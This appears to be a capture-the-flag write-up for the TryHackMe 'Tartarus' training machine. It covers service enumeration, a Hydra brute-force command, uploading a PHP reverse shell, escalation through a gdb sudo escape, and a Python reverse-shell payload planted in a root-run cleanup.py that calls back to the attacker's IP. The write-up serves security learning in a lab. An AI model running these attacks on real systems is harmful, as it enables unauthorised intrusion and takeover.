 # TryHackMe_Tartarus
This is an beginner box based on simple enumeration of services and basic privilege escalation techniques.

The goal is to find user.txt and root.txt

# Gain access to the machine

Run nmap 

```
nmap -sC -sV -oN namp_results.txt
```

And you'll find three port open.

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.24.148
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 98:6c:7f:49:db:54:cb:36:6d:d5:ff:75:42:4c:a7:e0 (RSA)
|   256 0c:7b:1a:9c:ed:4b:29:f5:3e:be:1c:9a:e4:4c:07:2c (ECDSA)
|_  256 50:09:9f:c0:67:3e:89:93:b0:c9:85:f1:93:89:50:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

The FTP protocol has anonymous connection enable., so connect whith FTP and un 

```
ls -la
```

Notice a wierd folder named '...', follow the path to find the hidden login page.
To get some credentials, check the robots.txt, i wrote a python script to get the login (the one in the repo) but Hydra will do the job.

```
hydra -l enox -P credentials.txt {machine ip} http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect password!"
```

Once you logged in you can upload a file,
i suggest a php reverse shell,
use gobuster to find where is located the rev shell

```
gobuster dir -u {machine ip}/sUp3r-s3cr3t/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Once you find the reverse shell set up a listener

```
nc -lnvp {the port in the rev shell file}
```

and then make the shell stable

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

# User escalation

Ok now we are in, let's check if there's a SUID to escalate

```
sudo -l
```

You can see that gdb is runnable wothout password, use GTFOBins (great site!) to escalate.

```
sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit
```

Now you are thirtytwo.

# Root escalation

Look around in the /home directory and you'll see a cleanup.py file, this file can be run as root.
Let's edit th file with 

```
nano cleanup.py
```

and replace the content with 
```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("{your ip}",{any port you want}));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```

on your machine setup another listener with the port you choose and BOOM!, you are root.

# Find the flags

Run the two following commands

```
find / -name 'user.txt' 2>/dev/null
```
and
```
find / -name 'root.txt' 2>/dev/null
```
 and you're done!
 
 # CONGRATULATIONS!
